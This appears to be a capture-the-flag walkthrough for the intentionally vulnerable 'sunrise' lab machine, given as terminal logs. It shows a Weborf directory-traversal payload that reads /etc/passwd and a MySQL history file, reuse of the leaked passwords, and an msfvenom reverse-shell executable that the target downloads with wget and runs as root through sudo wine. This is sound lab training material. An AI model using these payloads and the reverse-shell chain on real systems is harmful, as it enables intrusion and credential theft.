

crazyeights@es-base:~$ nmap -PS 192.168.56.1-255
Nmap scan report for 192.168.56.135
Host is up (0.00014s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
3306/tcp open mysql
crazyeights@es-base:~$ nmap -A -p- 192.168.56.135
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-07 13:32 EST
Nmap scan report for 192.168.56.135
Host is up (0.000067s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open http nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
3306/tcp open mysql?
| fingerprint-strings:
| NULL:
|_ Host '192.168.56.1' is not allowed to connect to this MariaDB server
8080/tcp open http-proxy Weborf (GNU/Linux)
| fingerprint-strings:
Always check web first
Index Page:
The weborf web application might have vulnerabilities
Searching for exploits using searchsploit:
crazyeights@es-base:~$ searchsploit weborf
---------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------- ---------------------------------
weborf 0.12.2 - Directory Traversal | linux/remote/14925.txt
Weborf HTTP Server - Denial of Service | multiple/dos/14012.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Exploit: GET /..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[SNIP]
sunrise:x:1000:1000:sunrise,,,:/home/sunrise:/bin/bash
[SNIP]
weborf:x:1001:1001:,,,:/home/weborf:/bin/bash
mysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false
crazyeights@es-base:~$
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2f
[SNIP]
user.txt
Getting the user flag:
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2fuser.txt
a6050aecf6303b0b824038807d823a89
There is much less in the weborf home folder, only the weborf application directory (cleaned up for clarity)
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f
weborf-0.12.2/
crazyeights@es-base:~$ dirb http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f
---- Scanning URL: http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f/ ----
+ http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f/.bashrc (CODE:200|SIZE:3526)
+ http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f/.mysql_history (CODE:200|SIZE:83)
[SNIP]
crazyeights@es-base:~$ curl http://192.168.56.135:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f.mysql_history
show databases;
ALTER USER 'weborf'@'localhost' IDENTIFIED BY 'iheartrainbows44';
crazyeights@es-base:~$ ssh weborf@192.168.56.135
weborf@192.168.56.135's password:
Linux sunrise 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec 5 16:24:32 2019 from 192.168.1.146
weborf@sunrise:~$
weborf@sunrise:~$ mysql -u weborf -p'iheartrainbows44'
[SNIP]
| localhost | sunrise | thefutureissobrightigottawearshades | N | N | N
[SNIP]
MariaDB [mysql]>
weborf@sunrise:~$ su sunrise
Password:
sunrise@sunrise:/home/weborf$
sunrise@sunrise:/home/weborf$ sudo -l
[sudo] password for sunrise:
Matching Defaults entries for sunrise on sunrise:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User sunrise may run the following commands on sunrise:
(root) /usr/bin/wine
The user sunrise can run the wine command (windows emulator) with root privileges
Use msfvenom to create an executable containing a reverse shell:
crazyeights@es-base:~$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.1 lport=1234 -f exe >evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
crazyeights@es-base:~$
crazyeights@es-base:~$ sudo cp evil.exe /var/www/html/
[sudo] password for crazyeights:
crazyeights@es-base:~$ sudo service apache2 start
crazyeights@es-base:~$
sunrise@sunrise:/tmp$ wget http://192.168.56.1/evil.exe
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > run
sunrise@sunrise:/tmp$ sudo /usr/bin/wine evil.exe
[*] Started reverse TCP handler on 192.168.56.1:1234
[*] Sending stage (176195 bytes) to 192.168.56.135
[*] Meterpreter session 1 opened (192.168.56.1:1234 -> 192.168.56.135:41564) at 2021-01-07 14:17:27 -0500
Checking uid:
meterpreter > getuid
Server username: sunrise\root
Get flag root/root.txt
meterpreter > cat root.txt
[SNIP]
Thanks for playing! - Felipe Winsnes (@whitecr0wz)
24edb59d21c273c033aa6f1689b0b18c
meterpreter >
FIN.